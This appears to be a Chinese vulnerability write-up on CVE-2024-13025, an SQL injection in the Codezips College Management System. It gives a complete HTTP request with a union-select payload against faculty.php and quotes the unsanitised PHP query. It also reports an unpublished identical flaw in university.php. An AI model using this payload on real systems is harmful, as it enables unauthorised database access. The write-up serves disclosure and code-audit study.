







# CVE-2024-13025-Codezips 大学管理系统 faculty.php sql 注入分析及拓展-先知社区

> **来源**: https://xz.aliyun.com/news/16416  
> **文章ID**: 16416

---

## Codezips

里面有很多cms系统，其中的一个College Management System In PHP With Source Code存在sql注入漏洞。

## 复现

对源码进行下载登录。



里面有很多远程js加载不出来但是不影响接口使用。

对于/college-mgmt-php-master/Front-end/faculty.php接口进行测试。  
数据包为

```
POST /college-mgmt-php-master/Front-end/faculty.php HTTP/1.1
Host: localhost
Sec-Fetch-Mode: navigate
Accept-Language: zh-CN,zh;q=0.9
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Cache-Control: max-age=0
Origin: http://localhost
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Sec-Fetch-Dest: document
Referer: http://localhost/college-mgmt-php-master/Front-end/login.php
sec-ch-ua-mobile: ?0
Cookie: PHPSESSID=40a20a299e19c127ad0ed71b0cf004cb
Sec-Fetch-User: ?1
Sec-Fetch-Site: same-origin
Upgrade-Insecure-Requests: 1
sec-ch-ua-platform: "Windows"
Content-Length: 59

book_name=x'+union+select+NULL,database(),NULL,NULL--+-&book_author=x&search_book=
```





复现成功，即faculty.php下的book\_name/book\_author字段存在sql注入。

## 源码分析


```
<?php

                  if(isset($_POST['search_book']))
                  {
                    $name=$_POST['book_name'];
                    $author=$_POST['book_author'];

                    $query = "SELECT * FROM book WHERE book_name = '$name' AND author = '$author'";
                    $results = mysqli_query($db, $query);

                    $row = mysqli_fetch_array($results);


                   ?>
```

在这里面先是判断了search\_book字段是否为空，为空则引入book\_name和book\_author带到sql query里面。  
是一个非常经典的无过滤导致sql注入。  
CVE-2024-13025分析结束。

## 0day

经过代码审计，在university.php文件下存在与之前一模一样的漏洞，明显是之前漏洞挖掘者忽略的

  
使用联合注入即可


## 风险代码



这段代码是visitor表插入的逻辑，也是页面登录用户的逻辑  
利用这个接口，可以绕过前端全部对于邮箱格式、密码长度等检测。属于风险代码。可以导致插入一些风险代码。



可以看到插入成功



此cve 是一个sql注入，同时此cms还有一个sql注入的0day是没有发现的，这里我代码审计进行了补充。同时也存在一定的风险代码问题，需要在代码审计时引起注意。
